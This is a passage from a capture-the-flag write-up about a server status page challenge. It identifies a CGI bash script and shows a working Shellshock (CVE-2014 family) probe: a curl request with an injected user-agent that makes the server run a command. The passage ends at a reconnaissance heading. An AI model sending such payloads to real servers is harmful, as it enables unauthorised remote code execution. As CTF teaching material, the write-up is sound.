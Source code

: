 # Status Page

https://stt.uctf.ir

All you're given is a server status page and you're tasked with recovering the password of a user named `m4d0k4`

Flag format: uctf{`m4d0k4's password`}

> Hint: `rockyou.txt` wordlist may work on the password hash.

## Write Up

### Discovering Vulnerablities

Opening up the webpage we're greeted with a very simple HTML page with an iframe pointing to `cgi-bin/uptime.sh` displaying server time and uptime.

```html
<h1>Server Status</h1>
    <iframe id="uptime-iframe" src="/cgi-bin/uptime.sh">
</iframe>
```

Considering the extension it's a shell script of sorts being used as a CGI script. What vulnerablities could pertain to that?

Back in 2014, a family of critical security bugs in the Bash shell were disclosed that can lead to remote code execution. Let's try that.

```
$ curl -A '() { :; }; echo ; echo Vulnerable' https://stt.uctf.ir/cgi-bin/uptime.sh
Vulnerable
Content-type: text/html

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Uptime</title>
</head>
<body>
  <p>Mon Aug 21 20:06:19 UTC 2023</p>
  <p> 20:06:19 up  6:30,  0 users,  load average: 0.02, 0.39, 2.95</p>
</body>
</html>
```

After setting `() { :; }; echo ; echo Vulnerable` as the user-agent, Bash accidentally executed what came after `() { :; };` hence the 'Vulnerable' response we get from server.

### Reconnaissance
